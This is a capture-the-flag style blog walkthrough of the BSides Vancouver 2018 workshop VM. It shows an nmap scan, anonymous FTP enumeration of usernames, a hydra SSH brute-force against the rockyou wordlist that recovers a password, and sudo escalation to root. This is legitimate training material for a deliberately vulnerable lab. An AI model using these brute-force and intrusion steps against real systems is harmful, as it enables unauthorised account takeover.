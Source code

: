 ```yaml
---
layout: post
date: 2018-06-22 06:52:37 +0000
last_modified_at: 2018-12-09 08:21:33 +0000
title: "BSides Vancouver: 2018 (Workshop) Walkthrough"
subtitle: "A Vibrant Melting Pot"
category: Walkthrough
tags: [VulnHub, "BSides Vancouver"]
comments: true
image:
  feature: bsides-vancouver-2018-workshop-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/kermit-workshop-coffee-break-pliers-2091951/
---
```


This post documents the easiest walkthrough of BSides Vancouver: 2018 (Workshop), a boot2root [VM][1] created by [abatchy][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This VM aims to create a safe environment to perform real-world penetration testing on an intentionally vulnerable target. As the name implied, the VM appeared as course material in a workshop during 2018 BSides Vancouver.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03 17:52 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.30.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

`nmap` finds `21/tcp`, `22/tcp`, and `80/tcp` open. None of the services are vulnerable to any remote code execution attacks right off the bat. Let's explore the `ftp` service next since we can log in anonymously.

### FTP Service

There's a file `users.txt.bk` in the `public` directory—it contains usernames.

```
# cat users.txt.bk
abatchy
john
mai
anne
doomguy
```
### SSH Service

If I had to guess, I would say these are probably users with an account in the target. Let's find out.

![SSH Login](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.jlutahztgc.png)

As you can see, `anne` is the sole account that can login via SSH with a password. This calls for a brute-force attack.

### Hail Hydra

For online brute-force attack, I like to use `hydra` and the **rockyou** wordlist. Here's the command.

```
# hydra -l anne -P /usr/share/wordlists/rockyou.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.129
[22][ssh] host: 192.168.30.129   login: anne   password: princess
```

### SSH Access

I don't believe it—this is way too easy.

![SSH Access](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.dovkhr1yz8s.png)

### Privilege Escalation

Guess what? `anne` is able to `sudo` as `root`.

![sudo](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.6pu5qdr84a.png)

### Eyes on the Prize

I got my eyes on the prize.

![flag.txt](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.m2ls023yfbf.png)

### Afterthought

Admittedly, this VM is not too difficult since it's targeting delegates attending the workshop. That's also the reason why there are other ways to gain remote access and `root`ing the VM because the instructor would then cover other attack surfaces like WordPress and/or kernel exploit during the workshop.

[1]: https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/
[2]: https://twitter.com/@abatchy17
[3]: https://www.vulnhub.com
